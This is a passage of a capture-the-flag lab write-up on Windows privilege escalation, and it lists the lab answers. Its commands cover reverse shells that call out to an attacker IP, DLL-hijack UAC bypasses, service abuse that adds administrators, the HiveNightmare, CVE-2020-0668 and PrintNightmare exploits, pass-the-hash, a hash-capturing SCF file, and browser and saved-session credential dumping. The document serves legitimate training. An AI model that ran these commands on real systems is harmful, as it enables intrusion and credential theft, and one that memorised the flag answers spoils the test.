*the payload will initiate reverse shell to attacker in the IP '10.10.15.241' and
port 4444. *
When done, we will confirm payload creation with 'ls':

Now lets transfer the created payload to the target machine, via python temp
server  - lets initialize on the pwnbox the server:
```bash
python -m http.server 8080
```


*_Figure 37.1 — Lab execution and output verification (Page 37)_*


*_Figure 37.2 — Lab execution and output verification (Page 37)_*


### is our username), we will download the dll payload

and on the target machine – on the path 'C:\Users\sarah\Documents' ('sarah'
is our username), we will download the dll payload:
```bash
iwr -uri http://10.10.15.241:8080/srrstr.dll -outfile
```
srrstr.dll


Now that the malicious payload dll is on the target machine, lets explain a bit
how it is executed to initiate a reverse shell, first – running:
[environment]::OSVersion.Version
Will give us the machine OS version:

The build is '14393', now – we are going to use this UACME project of UAC
(User Access Control) bypass which works on said build - This technique targets
the 32-bit version of the auto-elevating binary SystemPropertiesAdvanced.exe.
There are many trusted binaries that Windows will allow to auto-elevate
without the need for a UAC consent prompt. The
'SystemPropertiesAdvanced.exe' executable will load the 'srrstr.dll', which
serves our malicious reverse shell payload.
The 'SystemPropertiesAdvanced.exe' will look for the dll, among other places,
in any path found within
cmd /c echo %PATH%


We will select the last path:
'C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll'
And copy our malicious dll file there


*_Figure 38.1 — Lab execution and output verification (Page 38)_*


*_Figure 38.2 — Lab execution and output verification (Page 38)_*


*_Figure 38.3 — Lab execution and output verification (Page 38)_*


### But on the pwnbox

cp C:\Users\sarah\Documents\srrstr.dll
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dl
l


We are ready to execute the dll, first lets open a netcat listener on the pwnbox:
```bash
nc -lnvp 4444
```


When the listener is active, lets execute the executable
'SystemPropertiesAdvanced.exe' with the command
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
'SystemPropertiesAdvanced.exe' is 32bit auto elevating binary, which executing
the dll in its functions. On execution, we don't see any output:


But on the pwnbox:

We have a shell!
All we have to do is to get the flag from the reverse shell (which is a cmd so its
color is black):
type C:\Users\sarah\Desktop\flag.txt


*_Figure 39.1 — Lab execution and output verification (Page 39)_*


*_Figure 39.2 — Lab execution and output verification (Page 39)_*


*_Figure 39.3 — Lab execution and output verification (Page 39)_*


*_Figure 39.4 — Lab execution and output verification (Page 39)_*


*_Figure 39.5 — Lab execution and output verification (Page 39)_*


### Weak Permissions

> **Lab Question (Page 40)**: Escalate privileges on the target host using the techniques demonstrated in this section. Submit the contents of the flag in the WeakPerms folder on the Administrator Desktop.
>
> **Flag / Answer**: `Aud1t_th0se_s3rv1ce_p3rms!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we RDP login to the target windows machine with the provided
credentials.
Now, we will use the tool 'SharpUp' to enumerate ACL (Access control list) –
the tool will check for service binaries suffering from weak ACLs, those we can
```bash
exploit.
```
For that, we will open Powershell on 'C:\Tools' (where 'SharpUp' is built in,
within the target machine), and run the command:
.\SharpUp.exe audit
command is used to run an audit of the system to identify potential security
issues and misconfigurations. 'audit' is a parameter passed to the executable
that triggers the audit functionality.
Here are some of its functions:


Now lets see the command's output in the target machine:


*_Figure 40.1 — Lab execution and output verification (Page 40)_*


### Lets check that with the command

#### Technical Methodology & Exploit Execution:

icacls "C:\Program Files
(x86)\PCProtect\SecurityService.exe"
using the 'icacls' tool to check the the 'ACL' (Access Control List) of the service

Everyone has full access rights for the binary, including writing access.

Now – lets confirm that the service runs on system privileges, we will use the
command:
cmd /c "sc qc SecurityService"
the service runs with SYSTEM privileges:


*_Figure 41.1 — Lab execution and output verification (Page 41)_*


*_Figure 41.2 — Lab execution and output verification (Page 41)_*


*_Figure 41.3 — Lab execution and output verification (Page 41)_*


### ls to confirm exe creation


*_Figure 42.1 — Lab execution and output verification (Page 42)_*


*_Figure 42.2 — Lab execution and output verification (Page 42)_*


*_Figure 42.3 — Lab execution and output verification (Page 42)_*


### target machine with the command

#### Technical Methodology & Exploit Execution:

cmd /c "sc start SecurityService"


the command's output may say failed, but on the listener we have shell, lets
see we have system privilege shell with 'whoami':

We are system!
Lets get the flag:
type C:\Users\sarah\Desktop\ WeakPerms\flag.txt


Method 2:
When we first run:
.\SharpUp.exe audit
We have also detected the Modifiable service 'WindscribeService'.


*_Figure 43.1 — Lab execution and output verification (Page 43)_*


*_Figure 43.2 — Lab execution and output verification (Page 43)_*


*_Figure 43.3 — Lab execution and output verification (Page 43)_*


### with the flag info of

Lets open cmd on 'C:\Tools' and check its accesses with 'accesschk.exe':
accesschk.exe /accepteula -quvcw WindscribeService
with the flag info of:

And lets see the output:

All Authenticated users have 'SERVICE_ALL_ACCESS' on the service, meaning
anyone can do anything on it.

Next we run
```bash
net localgroup administrators
```
to check what users belong to 'administrators' group, and confirm out user
('htb-student') is not there on the list (because we haven't done anything yet):

Our 'htb-student' is not here.


*_Figure 44.1 — Lab execution and output verification (Page 44)_*


*_Figure 44.2 — Lab execution and output verification (Page 44)_*


*_Figure 44.3 — Lab execution and output verification (Page 44)_*


### administrator with the command

#### Technical Methodology & Exploit Execution:

sc config WindscribeService binpath="cmd /c net localgroup
administrators htb-student /add"


then we restart the service:
sc stop WindscribeService
sc start WindscribeService


the service starting had failed because the provided input path was obviously
invalid during configuration, but the command has been executed, lets confirm
'htb-student' addition to administrators:
```bash
net localgroup administrators
```


then we logout ('shutdown /l') and in again (using RDP), and we can take the
flag from the Administrator's Desktop\WeakPerms:


*_Figure 45.1 — Lab execution and output verification (Page 45)_*


*_Figure 45.2 — Lab execution and output verification (Page 45)_*


*_Figure 45.3 — Lab execution and output verification (Page 45)_*


*_Figure 45.4 — Lab execution and output verification (Page 45)_*


### Kernel Exploits

> **Lab Question (Page 46)**: Try out the 3 examples in this section to escalate privileges to NT AUTHORITY\SYSTEM on the target host. Submit the contents of the flag on the Administrator Desktop.
>
> **Flag / Answer**: `D0nt_fall_b3h1nd_0n_Patch1ng!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the windows target machine.
Now we will use several approaches to escalate privileges.
Method 1: we will use this CVE-2021-36934 HiveNightmare exploit that allows
any user to access the registry data regardless of privilege (normally
administrative privilege are required to access the registry in windows)
We have the tool already built in, within the target machine, in path 'C:\Tools'.
Its called 'CVE-2021-36934.exe', lets use it:
.\ CVE-2021-36934.exe


We get access to the dumped hashed credentials, the marked credential is the
Administrator NTLM hash.
Can we use it to smb login to the machine via 'pass the hash' technique and get
the flag:
On the pwnbox, run the command:
smbclient.py INLANEFREIGHT/administrator@<target-IP> -hashes
:7796ee39fd3a9c3a1844556115ae1a54
using smbclient tool to smb connect to the target machine, using the
Administrator's NTLM hash captured with the 'HiveKnightmare'.


*_Figure 46.1 — Lab execution and output verification (Page 46)_*


### We will be presented with smb CLI (in sucsessfull login)

We will be presented with smb CLI (in sucsessfull login):
in it we will enter the commands:
shares
```bash
use C$
```
get Users\Administrator\Desktop\flag.txt


The the commands are executed, we will have the flag in our user's home
directory on pwnbox (the 'get' commands performs the download'),
Lets cat it:


Method 2: we will use CVE-2020-0668 - A Trivial Privilege Escalation Bug in
Windows Service Tracing.
We will have the CVE-2020-0668 directory already built in, in 'C:\Tools'
(however it can be downloaded from here):

We will use the exploit to write to the service 'maintenanceservice'.


*_Figure 47.1 — Lab execution and output verification (Page 47)_*


*_Figure 47.2 — Lab execution and output verification (Page 47)_*


*_Figure 47.3 — Lab execution and output verification (Page 47)_*


*_Figure 47.4 — Lab execution and output verification (Page 47)_*


### SYSTEM privileges

#### Technical Methodology & Exploit Execution:

msfvenom -p windows/x64/meterpreter/reverse_https
LHOST=<attacker-IP> LPORT=4444 -f exe >
maintenanceservice.exe
*port value is already built-in for '4444'. *
When done, we will confirm generation with 'ls' command:


*_Figure 48.1 — Lab execution and output verification (Page 48)_*


*_Figure 48.2 — Lab execution and output verification (Page 48)_*


### 'htb-student' desktop, using python server

Now we have to transfer the file from attacker pwnbox to target windows (to
'htb-student' desktop, using python server:
```bash
python -m http.server 8080
```
*initialize server on pwnbox*
We will download 2 copies of the file (section instructions, and I tried the
method without it (one copy for both purposes – didn't work)):
```bash
iwr -uri http://10.10.15.241:8080/maintenanceservice.exe -
```
outfile maintenanceservice.exe

```bash
iwr -uri http://10.10.15.241:8080/maintenanceservice.exe -
```
outfile maintenanceservice2.exe

at the end of the transfer, we ls on the windows target machine to confirm exe
existence:


Now that our malicious 'maintenanceservice.exe' is ready on the target
machine, we will set metasploit listener on pwnbox in advance with the
settings:


*_Figure 49.1 — Lab execution and output verification (Page 49)_*


*_Figure 49.2 — Lab execution and output verification (Page 49)_*


### Ok, time to run the exploit, we will run the command

#### Technical Methodology & Exploit Execution:

C:\Tools\CVE-2020-0668\CVE-2020-0668.exe C:\Users\htb-
student\Desktop\maintenanceservice.exe "C:\Program Files
(x86)\Mozilla Maintenance Service\maintenanceservice.exe"


Lets check our permissions now with:
icacls "c:\Program Files (x86)\Mozilla Maintenance
Service\maintenanceservice.exe"


Now our user 'htb-student' has full permissions ('F') over the executable, that
includes writing permissions as well.
The exploit basically 'transferred' our permissions (which are full) from the
malicious 'maintenanceservice.exe' (which be brought to the target machine,
and obviously we would have full permissions over it) to the original
'maintenanceservice.exe'.
Now we can out right overwrite the original 'maintenanceservice2.exe' without
own malicious 'maintenanceservice.exe'.
*this is why we needed 2 copies, the exploit used on the first copy, and the
second is being copied to the target path (the exploit corrupted somehow the
first copy)
We will use the command:


*_Figure 50.1 — Lab execution and output verification (Page 50)_*


*_Figure 50.2 — Lab execution and output verification (Page 50)_*


### and on the pwnbox listener, we will have a reverse shell

cp C:\Users\htb-student\Desktop\maintenanceservice2.exe
"c:\Program Files (x86)\Mozilla Maintenance
Service\maintenanceservice.exe"
to copy the malicious exe to the original one, overwrite it.

Then we are ready to initiate the reverse shell, we will run
cmd /c 'net start MozillaMaintenance'
and on the pwnbox listener, we will have a reverse shell:


enter the command 'hashdump', and we will get the user's hashes, including
the administrator:

From here we proceed in the same manner as method 1.
*note, this method sucks, avoid using it on real scenario, the shell turns off
after few seconds and its impossible to get the flag directly from it (the shell
will not recognize the path). *


*_Figure 51.1 — Lab execution and output verification (Page 51)_*


*_Figure 51.2 — Lab execution and output verification (Page 51)_*


### Now we can use the command

#### Technical Methodology & Exploit Execution:

```bash
ls \\localhost\pipe\spoolss
```
the vulnerability requires the existence of spooler service, the command above
checks its existence (if it doesn't exists, we will get 'path does not exists' error):

Ok it exists
Now we can use the command:
Set-ExecutionPolicy Bypass -Scope Process
To bypass execution policy (select 'A' – Yes to All):


Now we can run the exploit (reminder – the tool is provided for us in 'c:\Tools'),
with the commands:
```bash
Import-Module .\CVE-2021-1675.ps1
```
Invoke-Nightmare -NewUser "jonsnow" -NewPassword "yigrette"
-DriverName "PrintIt"
To use the exploit to generate a new user 'jonsnow' with administrative
privilege (and belongs to the administrators group):


*_Figure 52.1 — Lab execution and output verification (Page 52)_*


*_Figure 52.2 — Lab execution and output verification (Page 52)_*


*_Figure 52.3 — Lab execution and output verification (Page 52)_*


### administrators

Lets confirm the user 'jonsnow' was indeed added, and belongs to
administrators:
```bash
net user jonsnow
```


Success!
*we can also run
```bash
net localgroup administrators
```
for absolute certainty:

*
Ok, lets logout from the user ('shutdown /l'), and rdp using jonsnow credentials
```bash
xfreerdp /v:<Target-IP> /u:jonsnow /p:yigrette /dynamic-
```
resolution


*_Figure 53.1 — Lab execution and output verification (Page 53)_*


*_Figure 53.2 — Lab execution and output verification (Page 53)_*


*_Figure 53.3 — Lab execution and output verification (Page 53)_*


### this message

When attempting to enter the 'Administrator' folder, we will be prompted with
this message:

Enter continue, we will get access.
And then all we have left to do is to open the flag within the 'Desktop' folder.


*_Figure 54.1 — Lab execution and output verification (Page 54)_*


*_Figure 54.2 — Lab execution and output verification (Page 54)_*


*_Figure 54.3 — Lab execution and output verification (Page 54)_*


### Vulnerable Services

> **Lab Question (Page 55)**: Work through the steps above to escalate privileges on the target system using the Druva inSync flaw. Submit the contents of the flag in the VulServices folder on the Administrator Desktop.
>
> **Flag / Answer**: `Aud1t_th0se_th1rd_paRty_s3rvices!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target windows machine with the
provided credentials.
When its done, we will begin with enumerating installed applications to get a
lay of the land, we will use the command:
```bash
wmic product get name
```
we will get these results:

We can observe among ordinary Windows 10 applications, the application of
'Druva inSync 6.6.3'.
The 'Druva inSync 6.6.3' is vulnerable to CVE-2020-5752, we can use this
```bash
exploit, the exploit is built-in, in the target machine on 'C:\Tools' as 'Druva.ps1'.
```
Now, the service itself is used for 'Druva inSync simplifies backup, archival,
compliance, and device management', and on default is running on port 6064.
We can confirm that with the sequence of commands:
netstat -ano | findstr 6064
to determine the process that uses port 6064:

We have PID 3456 listening, lets investigate it with the command:
get-process -Id 3456


*_Figure 55.1 — Lab execution and output verification (Page 55)_*


*_Figure 55.2 — Lab execution and output verification (Page 55)_*


### will give us final confirmation

#### Technical Methodology & Exploit Execution:

'Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.241 -Port 4444':

Where '10.10.15.241' is the attacking box IP , and port 4444 will be used for the
reverse shell.

And on the built-in 'Druva.ps1' exploit on 'C:\Tools' – in here:


*_Figure 56.1 — Lab execution and output verification (Page 56)_*


*_Figure 56.2 — Lab execution and output verification (Page 56)_*


*_Figure 56.3 — Lab execution and output verification (Page 56)_*


*_Figure 56.4 — Lab execution and output verification (Page 56)_*


### And initiate python server on port 8080

We will place our attacking IP for python temporary server, and port 8080 for
that purpose.
Now, Lets initiate nc listener on the attacking pwnbox, port 4444:
```bash
nc -lnvp 4444
```


And initiate python server on port 8080:
```bash
python -m http.server 8080
```


When both netcat and python server are reay - we run the exploit on the target
machine:
.\Druva.ps1
And we have a shell!

Lets cat the flag within 'VulServices' folder:
```bash
cat C:\Users\Administrator\Desktop\VulServices\flag.txt
```
*the command's background color is sea-blue as it is powershell. *


*_Figure 57.1 — Lab execution and output verification (Page 57)_*


*_Figure 57.2 — Lab execution and output verification (Page 57)_*


*_Figure 57.3 — Lab execution and output verification (Page 57)_*


*_Figure 57.4 — Lab execution and output verification (Page 57)_*


*_Figure 57.5 — Lab execution and output verification (Page 57)_*


### Credential Hunting

> **Lab Question (Page 58)**: Search the file system for a file containing a password. Submit the password as your answer.
>
> **Flag / Answer**: `Pr0xyadm1nPassw0rd!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target windows machine with the
provided credentials.
The hint of the question advices us to conduct a search from 'C:\Users', so
that's what we are going to do.
So from 'C:\Users', powershell, run the command:
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
the command will search for the word "password" in files with specified
extensions within a directory and its subdirectories, with the following
parameters:

And for the output:

After some scrolling to the end…


*_Figure 58.1 — Lab execution and output verification (Page 58)_*


*_Figure 58.2 — Lab execution and output verification (Page 58)_*


*_Figure 58.3 — Lab execution and output verification (Page 58)_*


### content for the string 'password', we will use the command

> **Lab Question (Page 59)**: Connect as the bob user and practice decrypting the credentials in the pass.xml file. Submit the contents of the flag.txt on the desktop once you are done.
>
> **Flag / Answer**: `3ncryt10n_w0nt_4llw@ys_s@v3_y0u`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

gc 'Public\Documents\settings.xml' | Select-String password
the command will display the lines which contains the word 'password'

We can the line which containing the password's value amongst those lines.

Question: Connect as the bob user and practice decrypting the credentials in
the pass.xml file. Submit the contents of the flag.txt on the desktop once you
are done.
Answer: 3ncryt10n_w0nt_4llw@ys_s@v3_y0u
Method: for this question we will RDP login with the provided credentials of
'bob' to the target machine.
While the flag can be just grabbed from the desktop,lets run the necessary
commands on powershell anyway.
First – here is 'pass.xml' within 'C:\Scripts':

We have this encrypted password of 'bob'.
Now – lets run the following powershell commands:


*_Figure 59.1 — Lab execution and output verification (Page 59)_*


*_Figure 59.2 — Lab execution and output verification (Page 59)_*


$encryptedPassword = Import-Clixml -Path
'C:\scripts\pass.xml'

$decryptedPassword =
$encryptedPassword.GetNetworkCredential().Password

```bash
echo $decryptedPassword
```


Due to 'DPAPI' mechanism, the password can only be encrypted by the same
user on the same computer they were created on.

Either way the flag is on the user 'bob's desktop for the taking…


*_Figure 60.1 — Lab execution and output verification (Page 60)_*


### Other Files

> **Lab Question (Page 61)**: Using the techniques shown in this section, find the cleartext password for the bob_adm user on the target system.
>
> **Flag / Answer**: `1qazXSW@3edc!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to our target windows machine with the
provided credentials.
Method 1: Now, running a systemwide search for 'password' will yield too
many results, too much to work with.
Lets search instead for the user itself – 'bob_adm'. We will search in 'C:\Users':
Get-ChildItem -Path C:\Users -Recurse -ErrorAction
SilentlyContinue -Force | Select-String -Pattern "bob_adm" -
ErrorAction SilentlyContinue | ForEach-Object { $_; ""; }
The command will recursively search for the string 'bob_adm', in 'C:\Users',
while disregarding error messages, and forcing search as well (searching hidden
files and folders), and the last part 'ForEach-Object { $_; ""; }' is for create a
spacing between the results for more comfortable view:

We can locate the passwords within 'Microsoft StickyNotes, which – from the
section:
'People often use the StickyNotes app on Windows workstations to save passwords and
other information, not realizing it is a database file. This file is located
at C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\Local
State\plum.sqlite and is always worth searching for and examining.'

Method 2: within 'C:\Tools' there is a folder of 'PSSQLite', a collection of tools
that can be used to extract data from StickyNotes application:


*_Figure 61.1 — Lab execution and output verification (Page 61)_*


### run the sequence of commands

We will use the tool 'PSSQLite.psd1' – lets open powershell in that path, and
```bash
run the sequence of commands:
```
Set-ExecutionPolicy Bypass -Scope Process
Select 'A' for 'Yes to all' prompt (ignore the red note below):

Then:
```bash
Import-Module .\PSSQLite.psd1
```
Enter 'R' for 'Run once' for all prompts:

Then:
$db = 'C:\Users\htb-
student\AppData\Local\Packages\Microsoft.MicrosoftStickyNote
s_8wekyb3d8bbwe\LocalState\plum.sqlite'

Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM
Note" | ft -wrap
Our result will be displayed:


*_Figure 62.1 — Lab execution and output verification (Page 62)_*


*_Figure 62.2 — Lab execution and output verification (Page 62)_*


*_Figure 62.3 — Lab execution and output verification (Page 62)_*


*_Figure 62.4 — Lab execution and output verification (Page 62)_*


### Further Credential Theft

> **Lab Question (Page 63)**: Using the techniques covered in this section, retrieve the sa password for the SQL01.inlanefreight.local user account.
>
> **Flag / Answer**: `S3cret_db_p@ssw0rd!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target machine ('WINLPE-SRV01') with
the provided credentials, in this question the credentials username is 'jordan'.
Now, on 'C:\Tools' we are being provided with the tool 'LaZagne', whose
purpose is to extract passwords from the machine from variety of locations and
software with variety of methods:
'we can run the LaZagne tool in an attempt to retrieve credentials from a wide variety of
software. Such software includes web browsers, chat clients, databases, email, memory
dumps, various sysadmin tools, and internal password storage mechanisms (i.e., Autologon,
Credman, DPAPI, LSA secrets, etc.). The tool can be used to run all modules, specific
modules (such as databases), or against a particular piece of software (i.e., OpenVPN). The
output can be saved to a standard text file or in JSON format. Let's take it for a spin.'
Lets open powershell on 'C:\Tools', and run the command:
.\lazagne.exe all


Investigating further..


*_Figure 63.1 — Lab execution and output verification (Page 63)_*


> **Lab Question (Page 64)**: Which user has credentials stored for RDP access to the WEB01 host?
>
> **Flag / Answer**: `amanda`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for this question we will re-login with the credentials of 'htb-student'
(which are provided for us in the section).
We will go to the same 'C:\Tools' path, and open powershell, and run the same
.\lazagne.exe all
Command:
However from 'htb-student' point of view (permissions and privileges), we
were able to obtain the login value 'amanda' to WEB01, among other results.

*The powershell command 'cmd /c "cmdkey /list"' will also find the answer. *


*_Figure 64.1 — Lab execution and output verification (Page 64)_*


*_Figure 64.2 — Lab execution and output verification (Page 64)_*


### locally), we will run the command

> **Lab Question (Page 65)**: Find and submit the password for the root user to access https://vc01.inlanefreight.local/ui/login
>
> **Flag / Answer**: `ILVCadm1n1qazZAQ!`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

we will use the tool 'SharpChrome' (also in 'C:\Tools') to retrieve
cookies and other login values from the chrome browser data (which are stored
locally), we will run the command:
.\SharpChrome.exe logins /unprotect
And we will have the result:


Question: Enumerate the host and find the password for ftp.ilfreight.local
Answer: Ftpuser!
Method: we will use the tool 'SessionGopher':
'We can use SessionGopher to extract saved PuTTY, WinSCP, FileZilla, SuperPuTTY, and
RDP credentials. The tool is written in PowerShell and searches for and decrypts saved
login information for remote access tools. It can be run locally or remotely. It searches
the HKEY_USERS hive for all users who have logged into a domain-joined (or standalone)
```bash
host and searches for and decrypts any saved session information it can find. It can also be
run to search drives for PuTTY private key files (.ppk), Remote Desktop (.rdp), and RSA
```
(.sdtid) files.'
We will run the commands:
```bash
Import-Module .\SessionGopher.ps1
```

Invoke-SessionGopher -Target WINLPE-SRV01


*_Figure 65.1 — Lab execution and output verification (Page 65)_*


And the password to the host 'ftp' will be found there.


*_Figure 66.1 — Lab execution and output verification (Page 66)_*


### Citrix Breakout

> **Lab Question (Page 67)**: Submit the user flag from C:\Users\pmorgan\Downloads
>
> **Flag / Answer**: `CitR1X_Us3R_Esc@p3`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the target machine with the provided
credentials.
Now, the RDP will not log us in to the usual Windows machine but to some
weird Linux machine:

We go to application → Web Browser

Fire fox will be opened, in there -  we will go to the URL:
http://humongousretail.com/remote/


*_Figure 67.1 — Lab execution and output verification (Page 67)_*


*_Figure 67.2 — Lab execution and output verification (Page 67)_*


### When loaded  - we will have install button, click it

The loading might take some time…
When loaded  - we will have install button, click it:

When done installed, we will be requested to confirm download – when the
download is complete, enter 'Continue':

Then we will be presented with a login window:


*_Figure 68.1 — Lab execution and output verification (Page 68)_*


*_Figure 68.2 — Lab execution and output verification (Page 68)_*


*_Figure 68.3 — Lab execution and output verification (Page 68)_*


*_Figure 68.4 — Lab execution and output verification (Page 68)_*


### The credentials are

The credentials are:
'Username: pmorgan
Password: Summer1Summer!
Domain: htb.local'
When sucsessfully logged in, we will be shown this box 'Default' – click it:

A launch file will be downloaded:

Ok lets go to downloads, extract the installation tar.gz file:


*_Figure 69.1 — Lab execution and output verification (Page 69)_*


*_Figure 69.2 — Lab execution and output verification (Page 69)_*


*_Figure 69.3 — Lab execution and output verification (Page 69)_*


### And when extracted – we hit the launch file

And when extracted – we hit the launch file:

When ready, we will have this window:

The real windows target machine, which is windows 7 – is ready.
Lets open the file explorer, when we go to 'Computer':


*_Figure 70.1 — Lab execution and output verification (Page 70)_*


*_Figure 70.2 — Lab execution and output verification (Page 70)_*


### Neither attempting to enter the path manually

We see there are no drives.
Attempting to enter 'Downloads' at the menu to the left, will give us this:

Neither attempting to enter the path manually:

Well what we do have? Paint.


*_Figure 71.1 — Lab execution and output verification (Page 71)_*


*_Figure 71.2 — Lab execution and output verification (Page 71)_*


*_Figure 71.3 — Lab execution and output verification (Page 71)_*


### On paint, lets select 'File → Open'

The MS paint interacts with the file system, includes the C:\ drive, lets use that.
On paint, lets select 'File → Open':


Now, in here we can enter to the File name the UNC (Universal naming
convention) path: '\\127.0.0.1\c$\users\pmorgan' (its like when used in smb
service or other cases), and on the selection box to the right select 'All Files':


*_Figure 72.1 — Lab execution and output verification (Page 72)_*


*_Figure 72.2 — Lab execution and output verification (Page 72)_*


*_Figure 72.3 — Lab execution and output verification (Page 72)_*


### Then select enter

Then select enter:

We go to Downloads, right click on the flag, select 'Open with → Notepad':


*_Figure 73.1 — Lab execution and output verification (Page 73)_*


*_Figure 73.2 — Lab execution and output verification (Page 73)_*


*_Figure 73.3 — Lab execution and output verification (Page 73)_*


### ('~/Tools')

> **Lab Question (Page 74)**: Submit the Administrator's flag from C:\Users\Administrator\Desktop
>
> **Flag / Answer**: `C1tr!x_3sC@p3_@dm!n`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

before we be begin, lets remind we have 3 machines – the pwnbox,
the linux machine we RDP to (in this section it called 'ACADEMY-CITRIX-ATTCK'
– we will refer it as 'ACA' in this solution), and the windows target machine we
connected from the 'ACA'.
Now, in the 'ACA' we have Tools directory in htb-student home's directory
('~/Tools'):

Where we are several tools and scripts.
We will have to transfer them to the Windows target machine, in 'ACA' in the
path '/home/htb-student/.local/bin/' we have smbserver.py.
So, on ACA, on '~/Tools' – run the command:
```bash
sudo /home/htb-student/.local/bin/smbserver.py -smb2support
```
share $(pwd)
we will also need the 'ACA' IP , it can be obtain with 'ifconfig'.
Ok lets run the smb server:

Now to the windows machine → paint → File → Open, enter on 'File name':
'\\10.13.38.95\share' and on the select box to the right 'All Files':


*_Figure 74.1 — Lab execution and output verification (Page 74)_*


*_Figure 74.2 — Lab execution and output verification (Page 74)_*


### We select 'Run'

We can not copy the files to the windows machine (due to the file's explorer
restrictions).
What we can do, is to run the 'pwn.exe' and use that to copy the files. We will
right click on 'pwn.exe' → open, and then we will have security warning:

We select 'Run':

A terminal is opened, we can use that to copy the files from the 'ACA' smb
server to the windows machine in 'pmorgan' (our user)'s desktop.
We will run the commands:
```bash
cd C:\Users\pmorgan\Desktop
powershell -ep bypass
```


*_Figure 75.1 — Lab execution and output verification (Page 75)_*


*_Figure 75.2 — Lab execution and output verification (Page 75)_*


*_Figure 75.3 — Lab execution and output verification (Page 75)_*


### Lets copy the files from 'ACA' to 'pmorgan' desktop

Now we have powershell to 'pmorgan' desktop.
Lets copy the files from 'ACA' to 'pmorgan' desktop:
xcopy "\\10.13.38.95\share\* " .\


We run the commands:
```bash
Import-Module .\PowerUp.ps1
```
Write-UserAddMSI
This function facilitates the creation of an .msi file directly on the desktop:

To install UserAdd.msi tool

Lets run it:
.\UserAdd.msi


And we will be opened with 'add Users' box, lets create a user and add it to the
administrators group:


*_Figure 76.1 — Lab execution and output verification (Page 76)_*


*_Figure 76.2 — Lab execution and output verification (Page 76)_*


*_Figure 76.3 — Lab execution and output verification (Page 76)_*


*_Figure 76.4 — Lab execution and output verification (Page 76)_*


*_Figure 76.5 — Lab execution and output verification (Page 76)_*


### And we have the shell of 'jonsnow'

#### Technical Methodology & Exploit Execution:

runas /user:jonsnow powershell
we will be prompted for the password


And we have the shell of 'jonsnow':

But we can not take the flag just yet:

Our access to the Administrator folder (and everything in it) is still denied.
We will have to run the tool 'Bypass-UAC.ps1'.
On the original terminal – we will copy the tool to 'C:\Users\public';
cp .\Bypass-UAC.ps1 C:\Users\Public


*_Figure 77.1 — Lab execution and output verification (Page 77)_*


*_Figure 77.2 — Lab execution and output verification (Page 77)_*


*_Figure 77.3 — Lab execution and output verification (Page 77)_*


*_Figure 77.4 — Lab execution and output verification (Page 77)_*


*_Figure 77.5 — Lab execution and output verification (Page 77)_*


### Then on 'jonsnow' terminal we run the commands

Then on 'jonsnow' terminal we run the commands:
```bash
powershell -ep bypass
Import-Module .\Bypass-UAC.ps1
```
Bypass-UAC -Method UacMethodSysprep


When executed, an administrator terminal shall be opened, lets cat the flag
and output it to flag.txt file in 'pmorgan' Desktop:


*_Figure 78.1 — Lab execution and output verification (Page 78)_*


*_Figure 78.2 — Lab execution and output verification (Page 78)_*


*_Figure 78.3 — Lab execution and output verification (Page 78)_*


*_Figure 78.4 — Lab execution and output verification (Page 78)_*


### Interacting with Users

> **Lab Question (Page 79)**: Using the techniques in this section obtain the cleartext credentials for the SCCM_SVC user.
>
> **Flag / Answer**: `Password1`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the windows target machine with the
provided credentials.
We will create a malicious SCF (Shell Command File) file, and put it in a writable
path, we will take our user's documents folder.
First we will create it as txt file (lets call it test.txt), and put in it the script:
[Shell]
Command=2
IconFile=\\<attacker-IP>\share\legit.ico
[Taskbar]
Command=ToggleDesktop


Then we change the name of the file to '@Malicious' (the '@' purpose it for
the file to appear at the top of the files list, if it comes to that, in our case the
file is the only file in the folder, but we will keep that for good practice).


Once the malicious SCF File is in place within
'C:\Users\htb-student\Documents',


*_Figure 79.1 — Lab execution and output verification (Page 79)_*


*_Figure 79.2 — Lab execution and output verification (Page 79)_*


### we can confirm with 'ifconfig'

#### Technical Methodology & Exploit Execution:

```bash
sudo responder -w -v -I tun0
```
where 'tun0' is the network interface connected to the target machine (which
we can confirm with 'ifconfig':

.
.

Now, on the target machine we will re-enter 'Documents' folder, that will
trigger the 'scf' script, and give the hashes:

*There will be more than one NTLMv2 hash value of 'sccm_svc' with different
values, that is because the 'challenge' that was imbued with the password's
hash are different every time. *
We take one of the hashes (doesn't matter which one) – and we will store the
hash value in a file called 'hash.txt' (make sure to remove all spaces and new
lines).
We will use hashcat tool to bruteforce-crack the NTLMv2 hash. first we will
need a wordlist, we will use rockyou wordlist to bruteforce the hash run the
command:


*_Figure 80.1 — Lab execution and output verification (Page 80)_*


*_Figure 80.2 — Lab execution and output verification (Page 80)_*


*_Figure 80.3 — Lab execution and output verification (Page 80)_*


### (-m 5600 is for NTLMv2 hashes)

```bash
hashcat -m 5600 hash.txt rockyou.txt
```
(-m 5600 is for NTLMv2 hashes):


*_Figure 81.1 — Lab execution and output verification (Page 81)_*


### Pillaging

> **Lab Question (Page 82)**: Access the target machine using Peter's credentials and check which applications are installed. What's the application installed used to manage and connect to remote systems?
>
> **Flag / Answer**: `mRemoteNG`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First, we will RDP login to the Windows target machine with the
provided credentials.
Then, we will open powershell and run the sequence of commands:
$INSTALLED = Get-ItemProperty
HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\*
|  Select-Object DisplayName, DisplayVersion,
InstallLocation

$INSTALLED += Get-ItemProperty
HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\
